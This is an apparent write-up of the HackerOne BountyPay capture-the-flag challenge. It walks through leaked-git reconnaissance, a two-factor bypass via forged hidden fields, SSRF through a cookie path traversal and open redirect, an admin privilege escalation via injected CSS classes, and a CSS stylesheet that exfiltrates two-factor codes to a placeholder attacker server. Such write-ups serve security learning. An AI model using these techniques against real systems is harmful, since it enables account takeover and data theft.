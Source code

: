 # BountyPay CTF Writeup
CTF Page: https://hackerone.com/h1-ctf/
My writeup is also available on HackerOne: https://hackerone.com/reports/895780

# The Competition Begins!
The tweet announces the CTF challenge. Looks like we will need to find a way to process some payments.

<img src="images/intro-tweet.PNG" width="50%">

# Initial Exploring
Reading up on the extended description at https://hackerone.com/h1-ctf/ reveals that the target of this competition are the domains within `*.bountypay.h1ctf.com`. 

Scanning for available subdomains revealed:
- https://bountypay.h1ctf.com
- https://app.bountypay.h1ctf.com
- https://www.bountypay.h1ctf.com
- https://staff.bountypay.h1ctf.com
- https://api.bountypay.h1ctf.com
- https://software.bountypay.h1ctf.com

The description also mentioned that we should keep a look out on the HackerOne twitter for clues. I took a closer look through their feed.

![img](images/detective.jpg)

Right away, this particular retweet stood out:

<img src="images/retweet.PNG" width="50%">

Viewing their profile shows:

<img src="images/bp-profile.PNG" width="50%">

I wonder who they are following?

<img src="images/following.PNG" width="50%">

Sandra has a very interesting tweet!

<img src="images/first-day.PNG" width="50%">

Zoom, enhance! Her staff ID is clearly visible in this tweet. `STF:8FJ3KFISL3`. Thanks, Sandra, this should come in handy later. 

Scanning the barcode didn't seem to reveal anything. Best to move on for now and to look at the sites.

# Beginning the Journey
First things first, https://bountypay.h1ctf.com/.

![img](images/main-site.PNG)

The main site is pretty uneventful, just a splash screen with two external login pages, and some tumbleweeds.

The customer login is hosted on https://app.bountypay.h1ctf.com/, and the staff login is on https://staff.bountypay.h1ctf.com/.

The login pages were sanitized against SQL injection, and there was no way to create a new account. 

Well, maybe we need to explore some more.

![img](images/lets-go-exploring.jpg)

# Fuzz Faster U Fool
Time to do some directory bruteforcing to see if anything is available other than the login pages. I scanned for directories on the `app` domain.

```yaml
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
images                  [Status: 301, Size: 194, Words: 7, Lines: 8]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8] 
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1] 
.                       [Status: 301, Size: 194, Words: 7, Lines: 8]                  
.git                    [Status: 403, Size: 170, Words: 5, Lines: 7] 
cgit                    [Status: 403, Size: 170, Words: 5, Lines: 7]
```

That `.git` is very interesting. Trying to `GET` it returned a 403, but what about it's contents? 

I tried going to `/.git/config` in my browser, and it started downloading.

![img](images/squirtle.PNG)

# Finding a Way In

Let's see that git config up close:
```yaml
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
[remote "origin"]
    url = https://github.com/bounty-pay-code/request-logger.git
    fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
    remote = origin
    merge = refs/heads/master
```

The GitHub account has one repository with one file in it, `logger.php`.

```php
<?php

$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```

Looks like they are logging their site activity to `bp_web_trace.log`. Let's grab that file off of `app`.

```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

Decoding the base64 entries shows:
```json
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```

Great, we've got our username and password. Let's login to `app`.

# Trying the Door

<img src="images/brian-oliver.PNG" width="50%">

Should be smooth sailing. Only it looks like they have one more security step...

<img src="images/2fa.PNG" width="50%">

Trying the code from the log didn't work, these codes are generated new every time.

Here, I used one of my favourite Burp Suite features, `Prominently highlight hidden fields`.

<img src="images/2fa-prominent.PNG" width="50%">

That is prominent enough for me. Looks like the frontend sends the backend both the challenge and the challenge answer. I can just set both to whatever I want. 

The challenge looks like an MD5 hash. I made up my own challenge answer, generated the hash of it, and then sent both. 

<img src="images/2fa-answer.PNG" width="50%">

Login successful.

# Looking For Greener Grass

![img](images/dashboard.PNG)

Well. Turns out our friend Brian Oliver kind of sucks. Loading all the statements from all the months and years that the UI provides (and the additional months and years that the backend supports but the UI doesn't show) turns up nothing. 

Looking around a bit, I was curious if I could gather any information from the cookie. The cookie was set to:
`eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9`. 

Decoding the base64 string returns: `{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}`.

I also noticed that every time I clicked to `Load Transactions`, it would fire off a request like:
`https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK/statements?month=01&year=2020`. 

It is interesting that the account id of my cookie also appears in this URL. From experimenting, I could see that editing the cookie to change the account id also changes the API request. We could potentially use an account id here that triggers a different endpoint.

## Investigating Possibilities of the API Domain
To exploit the api, we need to understand api. Going to `api.bountypay.h1ctf.com` shows:

![img](images/api.PNG)

The link is a cheeky redirect to google search what a rest api is. (https://api.bountypay.h1ctf.com/redirect?url=https://www.google.com/search?q=REST+API). Cheeky as it may be, this is an open redirect that we could make use of to perform a SSRF.

Exploring the endpoints from the browser (e.g. navigating to https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK), just returns `["Missing or invalid Token"]`. Looks like the main page with the redirect is all we have access to for now.

## Finding Our Target
The software domain looks like a likely target for a SSRF. It was rudely refusing access altogether due to our IP. 

![img](images/software.PNG)

## Performing the Attack
It is time to do some SSRF.

I set the cookie to the base64 encoded version of 
```json
{
    "account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=",
    "hash":"de235bffd23df6995ad4e0930baac1a2"
}
```

The `../` characters navigate us to the base api endpoint in order to use the `/redirect` path. 

I had to use the `&disregard=` at the end in order to make the browser **not** interpret the rest of the imposed url (`/statements?month=01&year=2020"`) to mean "use the `/statements` endpoint".

The final URL looks like: `https://api.bountypay.h1ctf.com/api/accounts/../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=/statements?month=01&year=2020`

With this request we are able to connect to the `software` domain and see...another login page. At least this time we are able to access it instead of just being given a 401.

# These Are the Droids You Are Looking For
I scanned to see what directories are available on the `software` domain without being logged in.

```json
{
    "account_id": "../../redirect?url=https://software.bountypay.h1ctf.com/FUZZ&disregard=",
    "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```

It turned up a folder, `uploads`. This page was a directory listing containing a file `BountyPay.apk`. Navigating my browser to https://software.bountypay.h1ctf.com/uploads/BountyPay.apk downloaded the application.

# Dreaming of Electric Sheep
![img](images/part-one-activity.PNG)

Loading the application lets us put in a username and twitter name, and then it displays a blank page. Well, okay. Perhaps if we decompile the source code we can find something interesting.

![img](images/pc.png)

The code is split into:

- `PartOneActivity.java`
- `PartTwoActivity.java`
- `PartThreeActivity.java`

## PartOneActivity
The blank screen we saw earlier was the first activity in the list. Looking at the source code, I found the trigger for starting the second activity:

```java
String firstParam = getIntent().getData().getQueryParameter("start");
if (firstParam != null && firstParam.equals("PartTwoActivity") && settings.contains(str)) {
    String str2 = "";
    String user = settings.getString(str, str2);
    Editor editor = settings.edit();
    String twitterhandle = settings.getString("TWITTERHANDLE", str2);
    editor.putString("PARTONE", "COMPLETE").apply();
    logFlagFound(user, twitterhandle);
    startActivity(new Intent(this, PartTwoActivity.class));
}
```

Intents are messages instructing that you want an action to be be performed. This includes launching activities (screens of the app).

From the code it looks like we can slide into part 2 if we just launch part one with the proper parameters (`PartTwoActivity` = `start`). We can launch customized intents with the debugger program, ADB:

```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartOneActivity" -a android.intent.action.VIEW -d one://part?start=PartTwoActivity
Starting: Intent { act=android.intent.action.VIEW dat=one://part?start=PartTwoActivity cmp=bounty.pay/.PartOneActivity }
```

This immediately triggers part 2, which welcomes us with...another blank screen.

## PartTwoActivtiy
The first thing to stand out in the code was this snippet:

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("two");
String secondParam = data.getQueryParameter("switch");
if (firstParam != null && firstParam.equals("light") && secondParam != null && secondParam.equals("on")) {
    editText.setVisibility(0);
    button.setVisibility(0);
    textview.setVisibility(0);
}
```

There are several components that become visible with the right intent parameters.

Launching with ADB:
```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartTwoActivity" -a android.intent.action.VIEW -d two://part?two=light\&switch=on
```

The lights are on now!

![img](images/part2-revealed.png)

Inputting the string into the `Header value` box didn't do anything. 

The string looks like an MD5 hash. Decrypting it uncovers an original value of `Token`. Still, inputting `Token` would not move to the next section. Hmm, time to inspect more of the code.

The button click listener was performing this logic:

```java
String value = (String) dataSnapshot.getValue();
SharedPreferences settings = PartTwoActivity.this.getSharedPreferences(PartTwoActivity.KEY_USERNAME, 0);
Editor editor = settings.edit();
String str = post;
StringBuilder sb = new StringBuilder();
sb.append("X-");
sb.append(value);
if (str.equals(sb.toString())) {
    String str2 = "";
    PartTwoActivity.this.logFlagFound(settings.getString("USERNAME", str2), settings.getString("TWITTERHANDLE", str2));
    editor.putString("PARTTWO", "COMPLETE").apply();
    PartTwoActivity.this.correctHeader();
    return;
}
Toast.makeText(PartTwoActivity.this, "Try again! :D", 0).show();
```

Well, looks like we need to have a `X-` prefix to the value that goes in. Inputting `X-Token` gets us through to part 3.

## PartThreeActivity
Blank screens don't phase me anymore, let's dive into the code.

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("three");
String secondParam = data.getQueryParameter("switch");
String thirdParam = data.getQueryParameter("header");
byte[] decodeFirstParam = Base64.decode(firstParam, 0);
byte[] decodeSecondParam = Base64.decode(secondParam, 0);
final String decodedFirstParam = new String(decodeFirstParam, StandardCharsets.UTF_8);
final String decodedSecondParam = new String(decodeSecondParam, StandardCharsets.UTF_8);
```

Ok, three parameters. We need to send in the first two base64 encoded this time.

```java
String value = (String) dataSnapshot.getValue();
if (str != null && decodedFirstParam.equals("PartThreeActivity") && str2 != null && decodedSecondParam.equals("on")) {
    String str = secondParam2;
    if (str != null) {
        StringBuilder sb = new StringBuilder();
        sb.append("X-");
        sb.append(value);
        if (str.equals(sb.toString())) {
            editText2.setVisibility(0);
            button2.setVisibility(0);
            PartThreeActivity.this.thread.start();
        }
    }
}
```

And sending in the correct parameters will once again make some items visible. It also starts a thread, but we can come back to that.

Remembering to base64 the first two parameter values (`PartThreeActivity`, `on`), we can turn on the lights for the second time today:

```bash
am start -n "bounty.pay/bounty.pay.PartThreeActivity" -a android.intent.action.VIEW -d three://part?three=UGFydFRocmVlQWN0aXZpdHk\=\&switch=b24\=\&header=X-Token
```

![img](images/part-three-activity.PNG)

One more input box that we need to fill with the correct value. Let's take a closer look now at what that thread was that we started:

```java
this.thread = new Thread(new Runnable() {
public void run() {
    PartThreeActivity.this.performPostCall(PartThreeActivity.this.getSharedPreferences(PartThreeActivity.KEY_USERNAME, 0).getString("TOKEN", ""));
}
});
```

It performs a POST call when we use the right arguments. Let's see if we can intercept this to find the answer to this section.

I managed to find a particular message sent from the app that caught my attention!

```json
{
    "t": "d",
    "d": {
        "b": {
            "p": "X-Token",
            "d": "8e9998ee3137ca9ade8f372739f062c1"
        },
        "a": "d"
    }
}
```

The X-Token makes an appearance! Submitting it gets us clear to the end of the stage.

![img](images/congrats-activity.png)

We should be able to use this X-Token to authenticate with the BountyPay API.

# Rummaging Through API
I tried again to load the accounts endpoint from before, but this time sending the X-Token as a header.

https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK

This time I got back:
```json
{
    "account_id": "F8gHiqSdpK",
    "owner": "Mr Brian Oliver",
    "company": "BountyPay Demo "
}
```

We're in! Once again, time to scan to see what endpoints are available other than `accounts`.

Some directory bruteforcing came up with this endpoint: https://api.bountypay.h1ctf.com/api/staff/

Doing a GET request got back:
```json
[
    {
        "name": "Sam Jenkins",
        "staff_id": "STF:84DJKEIP38"
    },
    {
        "name": "Brian Oliver",
        "staff_id": "STF:KE624RQ2T9"
    }
]
```

We know about Brian, and his lack of access to useful statements. Sam Jenkins is a newcomer, but we don't have a way to access his login information. 

I tried to send a POST request to create a staff account for myself. The api helpfully let me know that I needed to provide a `staff_id`, and `name`. Still, no matter what I put, the api would say the `staff_id` was invalid.

Looking at the two staff members again, I noticed that our social media guru, Sandra, was not there. I suppose she hasn't started work yet, and they haven't set up her account. Maybe we can push her start date up a bit and make her account for her.

![img](images/staff.png)

Welcome to the team, Sandra!

# Masquerading As Sandra
![img](images/hacker.png)

Using my newfound identity, I went over to https://staff.bountypay.h1ctf.com.

![img](images/staff-dashboard.PNG)

After looking around a bit, I realized that even though Sandra is a staff member, she is not an admin, and some site content remained hidden. Maybe we can find a way to boost the account into being one.

The site has a report feature where you can tell the admins about an issue with a page. 

![img](images/report.PNG)

Clicking the button sends a base64 encoded string of the URL of the current page you are on. The wording that the admins will look at the page makes me think that we can design a malicious page that promotes us to admin when viewed by an admin.

There was a file, `website.js` that piqued my interest. Looking at it, function by function:
```javascript
$('.upgradeToAdmin').click(function () {
	let t = $('input[name="username"]').val();
	$.get('/admin/upgrade?username=' + t, function () {
		alert('User Upgraded to Admin');
	});
}), 
```
Well, this is interesting! Looks like there is a button to upgrade users to administrators. This button doesn't appear anywhere on my UI, looks as though you have to be an admin to see it. This does reveal though what endpoint you have to hit to get the functionality. 

Trying `/admin/upgrade?username=sandra.allison` manually just returned an error saying I didn't have permission to do this. Reporting this URL didn't change anything. (The prompt did say any reports in the `/admin` directory would be ignored.) They even were filtering out obfuscating the path by doing things like `/pls-let-me-in/../admin/upgrade?username=sandra.allison`. Let's look at what else is in `website.js` for now.

```javascript
$('.tab').click(function () {
	return $('.tab').removeClass('active'), $(this).addClass('active'), $('div.content').addClass('hidden'), $('div.content-' + $(this).attr('data-target')).removeClass('hidden'), !1;
}), 
```
This powers the tab buttons on the site. When you click a tab it will hide the current site content and unhide the content related to the current tab. Not too interesting.

```javascript
$('.sendReport').click(function () {
	$.get('/admin/report?url=' + url, function () {
		alert('Report sent to admin team');
	}), $('#myModal').modal('hide');
}), 
```
We see the logic for the report sending here. It shows the URL for reporting urls here. We can just call `/admin/report?url=` directly now.

```javascript
document.location.hash.length > 0 && 
    (
        '#tab1' === document.location.hash && $('.tab1').trigger('click'), 
        '#tab2' === document.location.hash && $('.tab2').trigger('click'), 
        '#tab3' === document.location.hash && $('.tab3').trigger('click'), 
        '#tab4' === document.location.hash && $('.tab4').trigger('click')
    );
```
This is the handling for anchor hashes. For example if I go to https://staff.bountypay.h1ctf.com#tab2, it will automatically click the second tab for me. This might come in handy later.

I noticed also that the code talks about a tab4, but our UI does not have a 4th tab. Trying to go to it doesn't work. I'm assuming that there is one more tab that only the admins have access to.

## Profile Shenanigans
The first thing to really stand out was the profile updater tool. 

![img](images/profile.PNG)

I tried updating my username to different values to try and check for XSS. No luck, both inputs are being sanitized, and symbols are not allowed.

By intercepting the request, I was able to see the the radio buttons allowed me to change the avatar between the values: `avatar`, `avatar1`, `avatar2`, `avatar3`.

The avatar value gets inserted into a div like this:
```html
<div style="margin:auto" class="avatar1"></div>
```

And then the CSS adds the image to the div (urls removed by me to save space):
```css
.avatar {
    width:64px;
    height:64px;
}
.avatar1 {
    background-image:url("");
}
.avatar2 {
    background-image:url("");
}
.avatar3 {
    background-image:url("");
}
```

We are limited to only using regular letters and number characters as our input. That should be enough to do some damage though, as we are able to write class names right into the page, and we know `website.js` will run functionality on elements with certain class names.

The most obvious contender for classname is `upgradeToAdmin`. To refresh our memory, here is the function from `website.js` again below:
```javascript
$('.upgradeToAdmin').click(function () {
	let t = $('input[name="username"]').val();
	$.get('/admin/upgrade?username=' + t, function () {
		alert('User Upgraded to Admin');
	});
}), 
```

With the class set, the page renders with a div looking like this:
```html
<div style="margin:auto" class="upgradeToAdmin"></div>
```

And now, when I click on our avatar, I can see a request being made to `https://staff.bountypay.h1ctf.com/admin/upgrade?username=undefined`. We'll need to come back to the username being undefined, but this is a promising start!

Having the admin need to click the avatar to run the exploit is not good enough though. We will want it to happen automatically as soon as the page is opened.

There is some other functionality related to clicking, which I will paste again below:
```javascript
document.location.hash.length > 0 && 
    (
        '#tab1' === document.location.hash && $('.tab1').trigger('click'), 
        '#tab2' === document.location.hash && $('.tab2').trigger('click'), 
        '#tab3' === document.location.hash && $('.tab3').trigger('click'), 
        '#tab4' === document.location.hash && $('.tab4').trigger('click')
    );
```

Ok. If we give our image a specific tab class, and then go to a url with an anchor hash of the same value, we can get our avatar to be auto clicked.

One more profile update, and we have:

```html
<div style="margin:auto" class="upgradeToAdmin tab3"></div>
```

Now, when we navigate to https://staff.bountypay.h1ctf.com?template=home#tab3, we are brought directly to the profile tab, and we instantly have a request made in the background to `https://staff.bountypay.h1ctf.com/admin/upgrade?username=undefined`.

Now we are cooking.

## Getting the Username
One thing is still outstanding though. We need to make sure our page sends our username, `sandra.allison`. The code in the `upgradeToAdmin` function is sending the value of `input[name="username"]` as the username. None of the tabs have an input box with that name. 

There is, however, an input box with that name on the login page. If we could render the login template at the same time as the profile template (containing our avatar), we could have the request send properly.

The typical URL looks like `?template=VALUE` where value is one of `login`, `home`, `ticket`, or `admin` (and we don't have access to admin). We can send in an array of templates by forming our URL like `?template[]=home&template[]=login`.

Putting everything together, we get: https://staff.bountypay.h1ctf.com/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab3

We need the login template to have access to the username field, the ticket template to have access to our avatar (from the admin's point of view), and the tab in order to trigger our click.

I directly reported this URL to `/admin/report?url=`, base64 encoded. Now, when refreshing the page, we can see our unlimited administrator powers!

# Unlimited Administrator Powers
![img](images/admin-tab.png)

Marten Mickos, the account we need to access to pay the bounties! Let's log into the app domain and see if we can find some statements.

Logging in gives us another 2 factor challenge.

<img src="images/2fa.PNG" width="50%">

Pff, easy, just look at the hidden fields, make my own challenge and answer, we've done this before.

Once more, we are greeted with the dashboard of no statements. I iterated through all possible year / month combinations until 05-2020 revealed some transactions. 

![img](images/pay-bounty.png)

Clicking to pay brings up another 2 factor challenge.

<img src="images/2fa-css.PNG" width="50%">

It is weird that we are able to send a css stylesheet to the 2 factor app. Let's go next and see what happens.

<img src="images/2fa-2.PNG" width="50%">

Our usual party trick of manually setting the challenge and answer doesn't work this time! Looks like this works completely differently. It is also interesting that we have a timeout now, and have to complete the challenge within 2 minutes.

# Attacking With a Stylesheet
After some looking around, it seems like our only weapon for this final battle is a CSS stylesheet. The default stylesheet didn't contain any useful information.

I did some Google searching to see what kind of stylish attacks could be pulled off with nothing but CSS. This reference was a big help: https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense.

The gist of it is, you can determine what content is on a page by applying a style to it, and sending a network request as part of the style. We can assume that the 2 factor code is displayed in an `input` type element for easy selecting by the user.

As a little test, we could create an HTML file:
```html
<input value="secret">
```

and a CSS file:
```css
input[value="^s"] { background-image: url("<my-server>/s"); }
```

This style applies to all input elements that have a value beginning with `s`. When we open the HTML file, the server will receive a request for `s`. It won't know what to do with that request, but that doesn't matter. We received a piece of information that the input begins with `s`. The blog post goes into a lot of detail into how to create a css file that can go through all the permutations needed to work out the full input. Let's move on for now, back to the challenge at hand.

I generated a stylesheet looking like this to find out what the 2 factor code started with:
```css
input[value^="1"] { background-image: url("<my-server>/1"); }
input[value^="2"] { background-image: url("<my-server>/2"); }
input[value^="3"] { background-image: url("<my-server>/3"); }
...
input[value^="A"] { background-image: url("<my-server>/A"); }
input[value^="B"] { background-image: url("<my-server>/B"); }
input[value^="C"] { background-image: url("<my-server>/C"); }
...
input[value^="d"] { background-image: url("<my-server>/d"); }
input[value^="e"] { background-image: url("<my-server>/e"); }
input[value^="f"] { background-image: url("<my-server>/f"); }
...
input[value^="!"] { background-image: url("<my-server>/!"); }
input[value^="@"] { background-image: url("<my-server>/@"); }
input[value^="#"] { background-image: url("<my-server>/#"); }
...
```

After submitting my stylesheet, I got some pings on my server!

![img](images/server-css.PNG)

7 different responses. Note that if multiple styles apply to an object, only the last one gets used. That means that if I got 7 responses, there are 7 different input boxes on the page.

I wrote a quick python script to generate all the permutations of those 7 characters:
```python
from itertools import permutations

file = open('payloads.txt', 'a')
alphabet = 'QKDCux5'
for perm in permutations(alphabet, len(alphabet)):
    file.write(f'{"".join(perm)}\n')
file.close()
```

We have our wordlist now, next thing to do is to hammer the server with these thousands of requests before the time limit is up! 

![img](images/flag.PNG)

And that's a wrap!

![img](images/sleep.png)